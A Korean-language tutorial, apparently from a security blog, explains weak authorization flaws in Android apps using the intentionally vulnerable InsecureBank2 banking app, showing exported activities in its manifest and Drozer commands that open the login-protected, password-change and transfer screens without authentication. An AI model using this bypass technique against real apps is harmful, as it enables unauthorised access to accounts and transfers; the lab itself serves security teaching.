

# Weak Authorization mechanism 이란?

> 직역하면 취약한 인증 메커니즘으로, 각각의 기능들에 대한 정상적인 인증 절차를 우회하여 비정상적인 방법으로 접근 권한을 취득할 수 있는 취약점이다. 즉, 모바일 앱의 백엔드 서버에 서비스 요청을 제출하여, 인증을 위조, 우회하여 모바일 앱과의 직접적인 상호 작용을 우회하게 된다.

💡 **<u><span style="background-color: yellow; ">해당 취약점 실습은 "InsecureBank2"라는 모바일 뱅킹서비스 어플리케이션으로 진행합니다.</span></u>** 
{: .notice--primary}

이러한 취약한 인증은 다양한 부분에서 발생할 수 있으며, 대표적으로 아래와 같다.
<br><br>
1. 적절하지 않은 Application Permition 설정 여부
2. 서비스 권한 상승에 대한 적절한 통제 미흡
3. 기능에 대한 제한 및 우회 금지 여부
4. 불필요하거나 사용하지 않는 액티비티 제거 여부
5. 인텐트 사용에 대한 안전성 여부
6. 마스터 키 취약점 대응 여부
<br>
<br>

## 취약점 분석

```xml
<activity
    android:name=".ChangePassword"
    android:exported="true"
    android:label="@string/title_activity_change_password" >
</activity>

<activity
    android:name=".ViewStatement"
    android:exported="true"
    android:label="@string/title_activity_view_statement" >
</activity>
```

해당 코드는 진단 대상 어플리케이션인 InsecureBank 앱의 AndroidManifest.xml 파일의 activaty요소를 정의하는 부분이다.
<br><br>
이처럼 몇몇 액티비티 요소들을 보게되면 android:exported가 "true" 로 설정되어 있다. 이는 액티비티가 외부 앱에서 접근이 가능하다는 것을 나타낸다.

### Drozer을 이용한 실습


- 위와 같이 Drozer을 통해서 외부에서 접근 가능한 액티비티들을 보여준다.

```
run app.activity.start --component com.android.insecurebankv2 com.android.insecurebankv2.PostLogin
```


```
run app.activity.start --component com.android.insecurebankv2 com.android.insecurebankv2.ChangePassword
```


```
run app.activity.start --component com.android.insecurebankv2 com.android.insecurebankv2.DoTransfer
```


<br>
<hr>
위와 같이 별도의 인증절차 없이 각각의 액티비티에 접근할 수 있게 된다.
